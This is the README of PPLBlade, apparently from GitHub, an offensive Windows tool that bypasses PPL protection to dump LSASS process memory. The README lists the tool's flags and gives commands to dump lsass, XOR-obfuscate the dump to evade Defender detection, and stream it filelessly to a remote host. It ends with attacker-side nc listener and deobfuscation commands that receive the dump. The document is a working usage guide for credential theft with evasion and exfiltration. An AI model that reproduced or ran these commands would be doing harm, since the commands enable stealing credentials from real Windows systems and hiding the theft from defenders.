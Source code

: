 # PPLBlade
Protected Process Dumper Tool

Key functionalities:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk(fileless dump)


```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default "D:\\releasetest\\PPLBlade\\PPLBLADE.SYS")
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

`PPLBlade.exe --mode dothatlsassthing`

Upload the obfuscated LSASS dump onto a remote location:

`PPLBlade.exe --mode dump --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234 --handle procexp --name lsass.exe`

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscator.py --dumpname lsass.dmp
```

